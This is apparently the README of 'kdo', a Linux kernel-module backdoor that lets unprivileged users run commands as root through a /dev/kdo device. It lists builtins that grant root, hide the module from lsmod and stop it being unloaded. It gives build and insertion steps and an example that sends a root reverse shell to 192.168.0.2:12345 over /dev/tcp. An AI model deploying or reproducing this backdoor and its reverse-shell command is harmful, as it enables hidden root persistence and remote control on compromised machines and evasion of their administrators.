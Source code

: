 kdo
===
Kernel sudo. This is a very simple LKM that creates a character device at `/dev/kdo` to which
commands can be written and executed via `call_usermodehelper`, effectively creating a backdoor for
unprivileged users. Apart from command execution, some useful builtins are implemented as well.


Builtins
--------
- `kdo-su` \
Grant root privileges to the current process (set all uids to 0).

- `kdo-hide` \
Hide module from `lsmod` and make it impossible to unload with `rmmod`.

- `kdo-show` \
Make module visible and removable after running `kdo-hide`.


Installation
------------
**1**. Clone the repository
```bash
git clone https://github.com/hiatus/kdo
```

**2**. Build the module
```bash
cd kdo
make
```

**3**. Insert the module 
```
sudo insmod kdo.ko
```

Configuration
-------------
Some options can be set in `src/include/config.h`, such as the name of the created device (`kdo` by
default) and enabling logging (disabled by default).


Usage
-----
Simply write to `/dev/kdo`. Because the module treats anything (apart from builtins) as a last
argument for `/bin/sh -i -c`, redirection and other shell functionalities are supported. For
example, to send a root reverse shell to `192.168.0.2:12345`, run:
```bash
echo 'bash -i &> /dev/tcp/192.168.0.2/12345 0>&1' > /dev/kdo
```
